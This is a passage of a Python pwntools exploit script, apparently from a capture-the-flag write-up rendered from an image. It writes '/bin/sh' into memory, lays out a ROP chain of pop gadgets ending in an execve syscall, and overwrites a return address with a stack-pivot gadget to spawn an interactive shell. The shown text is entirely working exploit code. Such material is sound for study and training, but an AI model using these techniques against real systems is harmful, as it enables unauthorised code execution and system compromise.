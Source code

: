 ```python
    write(csiRet, exe.sym['__libc_csu_fini'])
    csiRet += 8

# 0x000000000001032b: add rsp, 0xd8; ret;
stackPivot = exe.address + 0x000000000001032b
# 0x00000000000084fa: pop rdi; ret;
popRdi = exe.address + 0x084fa
#0x000000000000d9f2: pop rsi; ret;
popRsi = exe.address + 0x000000000000d9f2
# 0x00000000000484c5: pop rdx; ret;
popRdx = exe.address + 0x00000000000484c5
# 0x00000000000460ac: pop rax; ret;
popRax = exe.address + 0x00000000000460ac
# 0x000000000000917c: syscall;
syscall = exe.address + 0x917c 
# 0x0000000000008076: ret;
ret = exe.address + 0x0000000000008076

binshAdr = exe.address + 0x2b33b0
# first wite "/bin/sh" to the designated place in memory
writeLoop(binshAdr, u64("/bin/sh\x00"))

log.info("binsh at "+hex(binshAdr))
'''
pop rdi ptr to "/bin/sh";   ret
pop rsi 0 ; ret
pop rdx 0 ; ret
pop rax 0x59 ; ret
syscall
'''

# write ropchain into memory
writeLoop(stack_leak+0xd0, ret)
writeLoop(stack_leak+0xd8, popRdi)
writeLoop(stack_leak+0xe0, binshAdr)
writeLoop(stack_leak+0xe8, popRsi)
writeLoop(stack_leak+0xf0, 0)
writeLoop(stack_leak+0xf8, popRdx)
writeLoop(stack_leak+0x100, 0)
writeLoop(stack_leak+0x108, popRax)
writeLoop(stack_leak+0x110, 59)
writeLoop(stack_leak+0x118, syscall)

#write stack pivot gadget into return address
write(stack_leak-0x8, stackPivot)
log.info("writing stack pivot gadget to "+hex(stack_leak-0x8))
log.info("Stack pivot gadget is "+hex(stackPivot))
io.interactive()
```



